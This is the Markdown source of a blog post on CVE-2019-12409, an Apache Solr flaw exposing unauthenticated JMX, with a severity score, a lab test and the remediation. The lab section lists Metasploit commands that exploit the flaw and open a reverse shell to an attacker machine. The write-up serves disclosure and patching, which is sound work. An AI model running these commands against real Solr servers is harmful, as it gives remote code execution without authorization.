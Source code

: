 ```yaml
---
layout: post
comments: true
categories: posts
title: CVE-2019-12409 Apache Solr RCE
subtitle: The 8.1.1 and 8.2.0 releases of Apache Solr
author: cainstorm
featured-image: /images/header/header_001.jpg
tags: [vulnerability]
date-string: DECEMBER 02, 2019
---
```

<script src="//ajax.googleapis.com/ajax/libs/jquery/1.9.1/jquery.min.js"></script>
<script>window.jQuery || document.write('<script src="_/js/libs/jquery-1.9.1.min.js"><\/script>')</script>
The 8.1.1 and 8.2.0 releases of Apache Solr contain an insecure setting for the ENABLE_REMOTE_JMX_OPTS configuration option in the default solr.in.sh configuration file shipping with Solr. If you use the default solr.in.sh file from the affected releases, then JMX monitoring will be enabled and exposed on RMI_PORT (default=18983), without any authentication. If this port is opened for inbound traffic in your firewall, then anyone with network access to your Solr nodes will be able to access JMX, which may in turn allow them to upload malicious code for execution on the Solr server.

### Description
The 8.1.1 and 8.2.0 releases of Apache Solr contain an insecure setting for the ENABLE_REMOTE_JMX_OPTS configuration option in the default solr.in.sh configuration file shipping with Solr. If you use the default solr.in.sh file from the affected releases, then JMX monitoring will be enabled and exposed on RMI_PORT (default=18983), without any authentication. If this port is opened for inbound traffic in your firewall, then anyone with network access to your Solr nodes will be able to access JMX, which may in turn allow them to upload malicious code for execution on the Solr server.

> **CVE ID : CVE-2019-12409**
> VCSS 3.X Severity and Metrics: 
> - NIST : NVD
> - Base Score : 9.8 CRITICAL
> - Vector : CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H

### Testing Vulnerability 
Attacker :Kali linux (192.168.46.130)<br>
Victim : Ubuntu 16.04.6 LTS (192.168.46.137) -> Docker_apache solr 8.1.1 (172.17.0.3)
<br>
Configure/start the metasploit module "java_jmx_server".
<br>

> msf > use exploit/multi/misc/java_jmx_server <br>
> msf > set RHOSTS 192.168.46.137 <br>
> msf > set RPORT 18983 <br>
> msf > set LHOST 192.168.46.130 <br>
> msf > set LPORT 9999 <br>
> msf > set payload java/shell/reverse_tcp <br>
> msf > run <br>

<br>
<center>
    <div class="photoset-grid-custom" data-layout="122">
        <img src="/images/2019-12-02/2019-12-02-vul-001.jpg">
        <img src="/images/2019-12-02/2019-12-02-vul-002.jpg">
        <img src="/images/2019-12-02/2019-12-02-vul-003.jpg">
		<img src="/images/2019-12-02/2019-12-02-vul-004.jpg">
        <img src="/images/2019-12-02/2019-12-02-vul-005.jpg">
    </div>
</center>

### Solution
On November 18, Apache Solr revised the originally reported bug report after it was found that the flaw could lead to RCE. In addition, the Changelog highlighted this flaw as one of the fixes in Apache Solr version 8.3.
Per the security advisory, **this vulnerability can also be remediated by setting the ENABLE_REMOTE_JMX_OPTS parameter to ’false’ in the solr.in.sh file.** The change can be confirmed by ensuring the com.sun.management.jmxremote* properties are not listed in the Solr Admin interface under the Java Properties section.
<br>
<script src="/assets/js/jquery.photoset-grid.js"></script>

<script type="text/javascript">
    $('.photoset-grid-custom').photosetGrid({
    // Set the gutter between columns and rows
    gutter: '5px',
  
    // Wrap the images in links
    highresLinks: true,
  
    // Asign a common rel attribute
    rel: 'print-gallery',

    onInit: function(){},
    
    onComplete: function(){
        // Show the grid after it renders
        $('.photoset-grid-custom').attr('style', '');
    }
});
</script>

### References
---
- https://blog.alyac.co.kr/2631
- https://www.youtube.com/watch?v=KZtR6rYFG-E
- http://www.shangdixinxi.com/detail-1161011.html
- https://github.com/mogwaisec/mjet
- http://vulsee.com/archives/vulsee_2019/1119_9471.html
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12409
- https://nvd.nist.gov/vuln/detail/CVE-2019-12409#vulnCurrentDescriptionTitle

---
{% if page.comments %}
<div id="post-disqus" class="container">
{% include disqus.html %}
</div>
{% endif %}
